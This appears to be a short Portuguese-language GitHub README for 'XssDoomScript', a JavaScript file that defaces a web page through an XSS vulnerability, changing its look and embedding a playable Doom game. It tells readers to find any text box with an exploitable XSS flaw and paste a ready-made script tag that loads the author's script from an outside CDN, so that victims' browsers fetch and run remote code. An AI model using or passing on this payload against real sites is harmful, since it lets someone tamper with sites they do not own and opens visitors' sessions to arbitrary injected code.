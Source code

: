 # XssDoomScript 
## Um código javascript simples, usado para alterar aspectos da página por meio de vulnerabilidade XSS</h2>

<p>O código consiste em um javasctipt para alterar a página e injetar um iframe jogável do jogo Doom.</br> 
Alguns atributos como cor de fundo, resolução do iframe e texto a serem exibido podem ser alterados no cabeçalho de constantes do script</p>

## Como testar o script ? 
<p>Caso já tenha achado alguma caixa de texto que possui a vulnerabilidade XSS explorável, apenas cole o seguinte código :  '<script src='https://cdn.jsdelivr.net/gh/daniel-kenobi/XssDoomScript/script.js'></script>' . Após isso o script já irá alterar os aspectos da página</p>
